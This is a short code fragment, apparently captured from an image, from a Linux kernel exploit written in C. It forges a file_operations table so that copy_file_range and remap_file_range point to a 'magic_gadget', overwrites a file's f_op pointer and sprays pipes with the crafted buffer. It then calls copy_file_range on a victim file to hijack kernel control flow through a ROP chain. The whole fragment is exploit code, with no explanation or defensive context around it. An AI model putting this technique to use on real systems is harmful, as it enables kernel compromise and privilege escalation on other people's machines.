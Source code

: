 ```c
}
```

```c
struct file_operations *fake_fops = rop + idx;
u64 fake_ops_offset = 0x300;
fake_fops->copy_file_range = magic_gadget;
fake_fops->remap_file_range = magic_gadget;
buf[22] = heap_base + fake_ops_offset; // set file->f_op

char tmp[0x1000];
for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
    SYSCHK(write(pipe_fd[i][1], buf, sizeof(buf)));
    SYSCHK(read(pipe_fd[i][0], tmp, sizeof(tmp)));
}

off_t offset_in = 0, offset_out = 22;
copy_file_range(spray_fds[victim_file_idx], &offset_in, spray_fds[rop_id], &offset_out, 22, 0);
_wait();
```